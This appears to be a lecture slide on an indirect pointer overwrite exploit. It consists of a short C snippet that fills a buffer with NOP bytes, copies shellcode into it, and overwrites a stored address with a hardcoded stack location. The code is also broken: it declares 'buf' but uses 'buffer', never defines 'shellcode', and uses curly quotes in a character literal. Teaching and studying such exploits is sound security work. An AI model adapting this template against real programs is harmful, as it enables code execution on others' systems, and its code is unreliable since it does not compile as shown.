

# Indirect pointer overwrite exploit
Code:
	#define RET 0xbffff9e4+88

	int main() {
		char buf[84];
		int ret;
		memset(buf,’\x90’, 84);
		memcpy(buf, shellcode, strlen(shellcode));
		*(long *)&buffer[80]=RET;
		printf(buffer);
	}